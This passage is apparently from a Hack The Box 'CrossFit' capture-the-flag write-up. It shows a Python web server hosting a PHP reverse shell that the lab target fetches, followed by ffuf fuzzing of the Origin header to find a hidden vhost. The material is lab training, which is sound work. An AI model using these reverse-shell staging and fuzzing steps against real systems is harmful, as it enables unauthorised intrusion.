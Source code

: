 ```text
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ python3 -m http.server 8099
Serving HTTP on 0.0.0.0 port 8099 (http://0.0.0.0:8099/) ...
10.10.10.208 - - [28/Dec/2020 14:53:10] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

In the same spirit I tried to get the admin to download a PHP reverse shell from me, but I couldn't find where it had been uploaded nor figure out how to execute it.

![](../../.gitbook/assets/2-origin.png)

`Origin` Header with `Access-Control-Allow-Origin` response header

### ftp.crossfit.htb

I was familiar with fuzzing for vhosts as well as directories and files, but fuzzing for a response in a header was something new.  I did some research on more advanced uses of `ffuf` and found a few interesting articles.

* [https://agentsteal.com/fuzz-parameters-directories-more-with-ffuf/](https://agentsteal.com/fuzz-parameters-directories-more-with-ffuf/)
* [https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html\#what-is-ffuf--and-what-is-it-used-for-](https://codingo.io/tools/ffuf/bounty/2020/09/17/everything-you-need-to-know-about-ffuf.html#what-is-ffuf--and-what-is-it-used-for-)

```bash
┌──(zweilos㉿kali)-[~/htb/crossfit]
└─$ ffuf -t 25 -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.10.10.208 -H 'Origin: http://FUZZ.crossfit.htb' -mr 'Allow-Origin'               

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.1
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.208
```